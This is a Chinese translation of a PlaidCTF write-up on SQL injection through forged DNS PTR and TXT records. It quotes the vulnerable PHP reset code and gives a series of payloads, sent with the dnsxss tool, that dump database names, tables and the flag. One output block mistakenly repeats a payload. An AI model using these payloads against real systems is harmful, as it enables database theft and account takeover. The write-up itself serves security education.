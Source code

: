# SQL Injection via DNS

原文：[https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns](https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns)

建议先看：[http://drops.wooyun.org/papers/3133](http://drops.wooyun.org/papers/3133)

0x00 分析
-------

* * *

Whatscat是一个可以上传猫咪的照片并且可以评论的php应用，地址：

https://blogdata.skullsecurity.org/whatscat.tar.bz2

漏洞代码存在于login.php的密码重置模块，如下：

```
elseif (isset($_POST["reset"])) {
    $q = mysql_query(sprintf("select username,email,id from users where username='%s'",
      mysql_real_escape_string($_POST["name"])));
    $res = mysql_fetch_object($q);
    $pwnew = "cat".bin2hex(openssl_random_pseudo_bytes(8));
    if ($res) {
      echo sprintf("<p>Don't worry %s, we're emailing you a new password at %s</p>",
        $res->username,$res->email);
      echo sprintf("<p>If you are not %s, we'll tell them something fishy is going on!</p>",
        $res->username);
$message = <<<CAT
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to $pwnew

If it wasn't you who changed your password, we have logged their IP information as follows:
CAT;
      $details = gethostbyaddr($_SERVER['REMOTE_ADDR']).
        print_r(dns_get_record(gethostbyaddr($_SERVER['REMOTE_ADDR'])),true);
      mail($res->email,"whatscat password reset",$message.$details,"From: whatscat@whatscat.cat\r\n");
      mysql_query(sprintf("update users set password='%s', resetinfo='%s' where username='%s'",
              $pwnew,$details,$res->username));
    }
    else {
      echo "Hmm we don't seem to have anyone signed up by that name";
    }

```

注意如下代码：

```
  $details = gethostbyaddr($_SERVER['REMOTE_ADDR']).
    print_r(dns_get_record(gethostbyaddr($_SERVER['REMOTE_ADDR'])),true);
  mail($res->email,"whatscat password reset",$message.$details,"From: whatscat@whatscat.cat\r\n");
  mysql_query(sprintf("update users set password='%s', resetinfo='%s' where username='%s'",
          $pwnew,$details,$res->username));

```

$details变量未编码即插入数据库中。我注意到过去人们过于相信DNS查询返回的结果，这是这种误区的最好事例！如果我们能够在DNS请求中插入SQL语句，就万事大吉了！

在完成Whatscat挑战过程中，我点击forgot password，输入用户名：admin，然后它发送给我的一个Mailinator，一个邮件服务器。我登录这个邮箱，注意到有些人尝试通过TXT记录进行SQL注入，这些可能是其他用户留下的记录。

这个TXT记录实际上是用于便捷地控制所有SkullSpace ip地址的PTR记录，它能够做一些有用的事情而不是用来破坏！我用这个服务器做blog和一些在SkullSpace网络上的东西，然后我通过它设置了test.skullseclabs.org的PTR记录。实际上，如果你对206.220.196.59进行DNS解析，你会看见如下内容：

```
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.

```

我为test.skullseclabs.org控制了授权服务器，所以我可以伪造任意记录。虽然对于这个级别来说是杀鸡用牛刀，但是至少我不用每次为了改变一条记录而翻到注册页面，并且我可以使用我写的一个叫做dnsxss的工具快速做到： https://github.com/iagox86/nbtool

```
$ sudo ./dnsxss --payload="Hello yes this is test"
Listening for requests on 0.0.0.0:53
Will response to queries with: Hello/yes/this/is/test

$ dig -t txt test123.skullseclabs.org
[...]
;; ANSWER SECTION:
test123.skullseclabs.org. 1     IN      TXT     "Hello yes this is test.test123.skullseclabs.org"

```

现在要做的就是找到合适的payload！

0x01 The exploit
----------------

* * *

我并不是盲注的fans，所以我在本地服务器搭了一个版本，打开SQL错误。然后我开始开发一个exploit！这是一条update语句，所以不能直接注入。我只能间接地通过将数据库内容返回在email上来读取。我也不知道如何适当地终止SQL语句(既不用#，也不用--，以及;)，最终我的payload将能够：

```
UPDATE其他的值到email字段上
恰当地读到最后，意味着用”resetinfo=”结束查询，所以”resetinfo=”字段会被余下部分填充。

```

最终payload如下：

```
./dnsxss --payload="test', email='test1234', resetinfo='"

```

我创建了一个账户，从我的ip重置密码，刷新。在测试服务器上完整的语句如下：

```
update users set password='catf7a252e008616c94', resetinfo='test.skullseclabs.orgArray ( [0] => Array ( [host] => test.skullseclabs.org [class] => IN [ttl] => 1 [type] => TXT [txt] => test', email='test1234', resetinfo='.test.skullseclabs.org [entries] => Array ( [0] => test', email='test1234', resetinfo=' ) ) ) ' where username='ron'

```

运行之后，重置密码内容如下：

```
Don't worry ron, we're emailing you a new password at test1234

If you are not ron, we'll tell them something fishy is going on!

```

已经成功重置了密码！

但是我想要的不是这个！

Mysql有一个非常便利的数据库叫做information_schema，可以通过它导出所有内容，修改payload如下：

```
./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"

```

找回密码，刷新一下，收到如下邮件：

```
Don't worry ron, we're emailing you a new password at information_schema, mysql, performance_schema, whatscat

If you are not ron, we'll tell them something fishy is going on!

```

得到whatscat的所有表名：

```
./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"

```

收到邮件：

```
./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"

```

得到flag表的所有列名：

```
./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"

```

收到邮件：

```
Don't worry ron, we're emailing you a new password at flag

If you are not ron, we'll tell them something fishy is going on!

```

最后取出列中的内容：

```
./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"

```

得到flag：

```
Don't worry ron, we're emailing you a new password at 20billion_d0llar_1d3a

If you are not ron, we'll tell them something fishy is going on!

```

0x02 总结
-------

* * *

这篇paper的重点是通过伪造了PTR的记录类型，将DNS查询的TXT记录定向到自己控制的dns服务器，从而控制了DNS插叙返回的内容，而人们往往是无条件信任DNS查询返回的内容。